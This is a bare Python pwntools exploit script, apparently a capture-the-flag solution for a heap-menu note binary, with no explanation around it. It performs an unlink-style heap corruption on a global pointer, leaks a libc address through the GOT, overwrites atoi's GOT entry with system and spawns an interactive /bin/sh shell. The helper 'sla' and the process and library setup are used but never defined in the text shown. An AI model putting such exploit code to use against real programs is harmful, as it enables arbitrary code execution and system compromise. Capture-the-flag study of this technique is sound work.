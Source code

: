 ```python
sa = lambda x, y: io.sendafter(x, y)
ru = lambda x: io.recvuntil(x)
rud = lambda x: io.recvuntil(x, drop=True)
ita = lambda: io.interactive()

def add(size, content):
	sla(b'option--->>', b'1')
	sla(b'Input the length of the note content:(less than 128)', str(size).encode())
	sa(b'Input the note content:', content)

def show(idx):
	sla(b'option--->>', b'2')
	sla(b'Input the id of the note:', str(idx).encode())

def edit(idx, option, content):
	sla(b'option--->>', b'3')
	sla(b'Input the id of the note:', str(idx).encode())
	sla(b'do you want to overwrite or append?[1.overwrite/2.append]', str(option).encode())
	sa(b'TheNewContents:', content)

def delete(idx):
	sla(b'option--->>', b'4')
	sla(b'Input the id of the note:', str(idx).encode())

sla(b'Input your name:', b'a')
sla(b'Input your address:', b'b')

bufptr = 0x602120

payload = p64(0x10) + p64(0x81)
payload += p64(bufptr + 8 - 0x18) + p64(bufptr + 8 - 0x10)

add(0x0, b'a\n')
add(0x80, b'a\n')
add(0x80, b'a\n')
delete(0)
add(0, b'a' * 0x18 + p64(0x91) + payload.ljust(0x80, b'a') + p64(0x80) + p64(0x90) + b'\n')
delete(2)

edit(1, 1, b'a' * 0x10 + p64(elf.got['atoi']) + p64(bufptr) + b'\n')
show(0)
ru(b'Content is ')
atoi = u64(io.recvuntil(b'\n', drop=True) + b'\x00\x00')
log.info("atoi = " + hex(atoi))
base = atoi - libc.symbols['atoi']
log.info("libc base = " + hex(base))
system = base + libc.symbols['system']
binsh = base + next(libc.search(b'/bin/sh'))
__free_hook = base + libc.symbols[b'__free_hook']

edit(1, 1, p64(elf.got['atoi']) + p64(bufptr) + b'\n')

edit(0, 1, p64(system) + b'\n')
sla(b'option--->>\n', b'/bin/sh')

ita()
```